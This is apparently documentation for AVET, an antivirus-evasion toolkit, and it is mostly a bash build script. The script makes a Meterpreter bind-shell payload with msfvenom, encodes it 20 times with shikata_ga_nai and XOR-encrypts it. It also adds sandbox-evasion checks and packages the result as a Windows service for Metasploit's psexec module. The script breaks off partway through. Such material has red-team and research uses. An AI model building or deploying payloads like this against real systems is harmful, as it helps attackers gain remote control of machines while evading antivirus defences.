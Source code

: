 #### sh_format
Utility from AVET 1.3 that performs AVET encoding.


## AVET & metasploit psexec

AVET is compatible to metasploit's psexec module. For that, the generated executable needs to be compiled as a Windows Service, which is implemented by using *avetsvc.c*. Consider the corresponding example build script

*build_svc_20xshikata_bindtcp_win32.sh*:

```
#!/bin/bash          
# Designed for use with msf psexec module!

# print AVET logo
cat banner.txt

# include script containing the compiler var $win32_compiler
# you can edit the compiler in build/global_win32.sh
# or enter $win32_compiler="mycompiler" here
. build/global_win32.sh

# import global default lhost and lport values from build/global_connect_config.sh
. build/global_connect_config.sh

# override connect-back settings here, if necessary
LPORT=$GLOBAL_LPORT

# make meterpreter bind payload, encoded 20 rounds with shikata_ga_nai
msfvenom -p windows/meterpreter/bind_tcp lport=$LPORT -e x86/shikata_ga_nai -i 20 -f raw -a x86 --platform Windows > input/sc_raw.txt

# import feature construction interface
. build/feature_construction.sh

# add evasion techniques
add_evasion fopen_sandbox_evasion 'c:\\windows\\system.ini'
add_evasion gethostbyname_sandbox_evasion 'this.that'

# generate key file
generate_key preset aabbcc12de input/key_raw.txt

# encode shellcode
encode_payload xor input/sc_raw.txt input/scenc_raw.txt input/key_raw.txt

# array name buf is expected by static_from_file retrieval method
./tools/data_raw_to_c/data_raw_to_c input/scenc_raw.txt input/scenc_c.txt buf

# no command preexec
set_command_source no_data
set_command_exec no_command

# set shellcode source
set_payload_source static_from_file input/scenc_c.txt

# convert generated key from raw to C into array "key"
./tools/data_raw_to_c/data_raw_to_c input/key_raw.txt input/key_c.txt key

# set key source
set_key_source static_from_file input/key_c.txt

# set payload info source
```